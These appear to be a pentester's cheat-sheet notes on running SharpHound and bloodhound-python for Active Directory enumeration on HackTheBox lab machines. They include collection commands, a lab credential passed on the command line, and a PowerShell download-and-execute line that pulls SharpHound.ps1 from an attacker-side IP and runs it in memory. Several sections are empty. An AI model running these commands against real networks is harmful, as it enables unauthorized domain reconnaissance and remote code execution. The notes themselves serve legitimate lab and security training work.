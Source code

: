 # SharpHound Ingestor/Collector

### Download
https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors

### Meaningful filename (use this)
```
.\SharpHound -c all --outputprefix HTB-Sauna
.\SharpHound.exe -c all --outputprefix HTB-Sauna
.\SharpHound.ps1 -c all --outputprefix HTB-Reel
Invoke-BloodHound -c all
```

### Default filename
```
.\SharpHound -c all
.\SharpHound.exe -c all
```

### [SharpHound Community Edition](https://support.bloodhoundenterprise.io/hc/en-us/articles/17481151861019)

### Ingestor
[BloodHound.py](https://medium.com/@anastasisvasileiadis/bloodhound-py-v0-5-releases-a-python-based-ingestor-for-bloodhound-aa054771f4ff)

https://github.com/dirkjanm/BloodHound.py
```

```

### bloodhound-python produce output in json
--zip                 Compress the JSON output files into a zip archive
```
bloodhound-python -c all -u svc-alfresco -p s3rvice -d htb.local -ns $ip --zip
```

### BEFORE
```
PS C:\Users\tom\a> gcm | sls invoke-b
Invoke-BpaModel
```

### 
```
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9/SharpHound.ps1')
```

### AFTER
```
PS C:\Users\tom\a> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9/SharpHound.ps1')                             
PS C:\Users\tom\a> gcm | sls invoke-b                                                                                           

Invoke-BloodHound                                                                                                               
Invoke-BpaModel
```
### 
```
Invoke-BloodHound -c all
```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
TLDR